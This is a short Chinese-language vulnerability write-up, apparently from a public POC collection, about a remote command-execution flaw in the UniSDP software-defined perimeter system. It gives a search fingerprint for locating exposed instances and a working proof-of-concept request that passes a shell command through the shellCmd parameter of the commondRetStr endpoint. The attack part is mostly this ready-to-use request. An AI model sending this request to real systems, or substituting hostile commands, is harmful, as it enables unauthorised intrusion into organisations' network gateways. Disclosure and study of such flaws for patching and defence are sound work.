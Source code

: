 # 联软安界 UniSDP 软件定义边界系统 commondRetSt 命令执行漏洞

# 联软安界 UniSDP 软件定义边界系统 commondRetSt 命令执行漏洞

## 漏洞描述

联软安界UniSDP软件定义边界系统是基于零信任的下一代VPN，该系统2021.04.28版本中TunnelGateway某接口存在安全漏洞，漏洞允许攻击者将特制请求发送到服务器并远程命令执行。

## 漏洞影响

```
联软安界 UniSDP 软件定义边界系统
```

## 网络测绘

```
title="UniSSOView"
```

## 漏洞复现

登录页面

![image-20230314090312164](images/image-20230314090312164.png)

验证POC

```
POST /TunnelGateway/commondRetStr
  
shellCmd=id
```

![image-20230314090322883](images/image-20230314090322883.png)

